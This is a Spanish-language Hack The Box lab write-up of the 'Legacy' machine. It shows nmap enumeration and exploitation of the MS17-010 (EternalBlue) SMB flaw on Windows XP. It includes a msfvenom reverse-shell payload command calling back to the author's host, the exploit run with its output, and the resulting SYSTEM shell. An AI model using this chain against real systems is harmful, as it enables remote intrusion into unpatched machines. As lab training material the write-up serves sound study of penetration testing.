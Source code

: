 ```yaml
---
title: "Hackthebox Legacy Writeup (OSCP Style)"
date: 2020-08-26 14:21:54 +/-0800
categories: [Hackthebox,Windows]
tags: [Eternalblue,MS17-010]
image: /assets/img/Post/Legacy.jpg
---
```


Información de la máquina.

| Contenido | Descripción |
|--|--|
| OS: | **![](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG)** |
| Dificultad: | Facil |
| Puntos: | 20 |
| Lanzamiento: | 15/Marzo/2017 |
| IP: | 10.10.10.4 |
| Primera sangre de usuario: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |
| Primera sangre de system: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |

## Enumeación.

Como siempre comenzaremos con un escaneo a los     `65535` puertos para descubrir cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts legacy.htb -Pn --min-rate 3000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:13 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.23s latency).
Not shown: 65532 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 47.65 seconds
```
Después lanzaré scripts de enumeración básicos para conocer los servicios y versiones de los puertos abiertos.
```console
intrusionz3r0@kali:~$  nmap -sCV -p139,445 -oN targeted legacy.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:16 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h30m21s, deviation: 2h07m16s, median: 4d23h00m21s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:91:0b (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-09-01T03:17:15+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.69 seconds
```
El escaneo determino lo siguiente:

* Puerto 139/tcp con servicio samba.
* Puerto 445/tcp con servicio samba.

## Análisis del servicio samba.

Rápidamente lanzo otro escaneo con nmap con el objetivo de poder encontrar si estas versiones de samba esta asociadas con alguna vulnerabilidad critica.

```console
intrusionz3r0@kali:~$ nmap -p139,445 --script="Vuln and Safe" legacy.htb -oN vulnScan -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:26 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.29s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 18.94 seconds
```

**¡¡Eureka!!**

Podemos observar que la máquina es vulnerable a `ms17-010` el famoso `eternalblue`.

Para explotarlo necesitamos descargarnos el siguiente repositorio: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

## Explotación de eternalblue.

Una vez descargado verificamos si la máquina es vulnerable nuevamente.

```console
intrusionz3r0@kali:~$ sudo python checker.py legacy.htb                                                                        [28/28]
Trying to connect to legacy.htb:445                                                                                                                                
Target OS: Windows 5.1                                                                                                                                             
The target is not patched                                                                                                                                          
                                                                                                                                                                   
=== Testing named pipes ===                                                                                                                                        
spoolss: Ok (32 bit)                                                                                                                                               
samr: STATUS_ACCESS_DENIED                                                                                                                                         
netlogon: STATUS_ACCESS_DENIED                                                                                                                                     
lsarpc: STATUS_ACCESS_DENIED                                                                                                                                       
browser: Ok (32 bit)
```
Si en la respuesta te arroja cualquier pipe en `OK` significa de que es vulnerable.

Creamos una payload.
```console
intrusionz3r0@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=1234 -f exe -o eternal.exe                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                             
[-] No arch selected, selecting arch: x86 from the payload                                                                                                         
No encoder specified, outputting raw payload                                                                                                                       
Payload size: 324 bytes                                                                                                                                            
Final size of exe file: 73802 bytes                                                                                                                                
Saved as: eternal.exe
```
Por último dejamos nuestro netcat a la escucha y lanzamos el exploit.

```console
intrusionz3r0@kali:~$ sudo python send_and_execute.py 10.10.10.4 eternal.exe 445 spoolss                           
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82129010
SESSION: 0xe21045d8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe21676b0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe2167750
overwriting token UserAndGroups
Sending file V9TKR5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service BYjN.....
Starting service BYjN.....
The NETBIOS connection with the remote host timed out.
Removing service BYjN.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

![](https://lh4.googleusercontent.com/efO57qg1EeFfLV9qks83MO3sBd961Kvb46EykFNcytBlddJyRkmT7ReRNtwE0JaYu0JRAGWxH2B8R3zdzGwUtRqOR2jteRei_UPP0R78PuQuVpsAZ-CUPcnjieaOo5miFmZ2QQ4J)

## Ejecución del binario whoami.exe

**¡¡Eureka!!**

Tenemos shell pero al intentar ejecutar el comando `whoami` podemos observar que es imposible debido a que no exite el binario.

```console
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```
Aunque se que somos Administrador de todas formas vamos a subir el binario `whoami` a la máquina.

Rápidamente me levanto un servidor con samba compartiendo el `whoami.exe` y lo ejecutamos desde ahí.

![](https://lh3.googleusercontent.com/ettGpXlw6gE5GzlOY7wPXxehUI85URaeJAZXOabZkiZMD3M0Xi3fsJfgluyWz8yrK8k6F7Syj4ulGc9TDNWXnR6LIIzfJsnnDhRoSGyB5vBtYVBFZDpBedAEL3LkXvmlHyy6ffxx)


**¡¡Somos Administrador!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

**¡Muchas Gracias!**
